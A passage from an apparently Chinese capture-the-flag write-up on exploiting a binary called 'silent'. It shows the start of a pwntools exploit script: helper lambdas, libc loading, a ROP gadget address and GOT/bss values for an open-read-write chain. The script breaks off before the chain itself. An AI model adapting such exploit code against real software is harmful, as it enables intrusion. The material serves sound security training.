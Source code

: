 效果：

[![](assets/1699929883-6be63881b47f1a1fa870f30e5034dfaf.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231105004716-cf8c7668-7b31-1.png)

接下来直接 orw 构造链就好了

完整 exp 如下：

```plain
import os
import sys
import time
from pwn import *
from ctypes import *

context.os = 'linux'
context.log_level = "debug"

s       = lambda data               :p.send(str(data))
sa      = lambda delim,data         :p.sendafter(str(delim), str(data))
sl      = lambda data               :p.sendline(str(data))
sla     = lambda delim,data         :p.sendlineafter(str(delim), str(data))
r       = lambda num                :p.recv(num)
ru      = lambda delims, drop=True  :p.recvuntil(delims, drop)
itr     = lambda                    :p.interactive()
uu32    = lambda data               :u32(data.ljust(4,b'\x00'))
uu64    = lambda data               :u64(data.ljust(8,b'\x00'))
leak    = lambda name,addr          :log.success('{} = {:#x}'.format(name, addr))
l64     = lambda      :u64(p.recvuntil("\x7f")[-6:].ljust(8,b"\x00"))
l32     = lambda      :u32(p.recvuntil("\xf7")[-4:].ljust(4,b"\x00"))
context.terminal = ['gnome-terminal','-x','sh','-c']

x64_32 = 1

if x64_32:
    context.arch = 'amd64'
else:
    context.arch = 'i386'

p=process('./silent')
#p = remote('172.10.0.8', 9999)
libc=ELF('./libc-2.27.so')
elf=ELF('./silent')

def duan():
    gdb.attach(p)
    pause()

vul=0x4006A0

#0x00000000004007e8 : add dword ptr [rbp - 0x3d], ebx ; nop dword ptr [rax + rax] ; ret

magic_gadget=0x00000000004007e8
read_got=0x600FE0

bss=elf.bss()
leak('bss',bss)

```